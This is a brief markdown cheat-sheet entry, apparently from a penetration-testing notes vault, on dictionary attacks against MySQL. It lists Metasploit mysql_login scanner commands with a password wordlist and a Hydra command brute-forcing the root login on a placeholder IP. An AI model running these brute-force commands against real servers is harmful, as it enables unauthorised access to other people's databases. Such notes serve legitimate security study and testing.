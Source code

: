 ```yaml
---
up: "[[SQL]]"
tools:
  - "[[Hydra]]"
---
```


# MySQL - Dictionary attack

```bash
msf5> use/auxiliary/scanner/mysql/mysql_login
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

With [[Hydra]]:

```bash
hydra -l root -P unix_passwords.txt <ip> mysql
```
